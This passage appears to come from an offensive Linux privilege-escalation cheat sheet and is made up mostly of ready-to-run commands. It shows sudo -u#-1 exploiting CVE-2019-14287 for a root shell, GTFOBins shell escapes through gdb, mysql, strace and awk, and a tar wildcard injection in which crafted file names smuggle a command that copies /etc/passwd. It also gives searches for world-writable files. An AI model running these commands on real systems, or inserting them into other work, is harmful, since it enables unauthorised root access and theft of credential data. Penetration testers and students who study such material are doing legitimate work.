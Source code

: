 Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)


### CVE-2019-14287

```powershell
# Exploitable when a user have the following permissions (sudo -l)
(ALL, !root) ALL

# If you have a full TTY, you can exploit it like this
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```
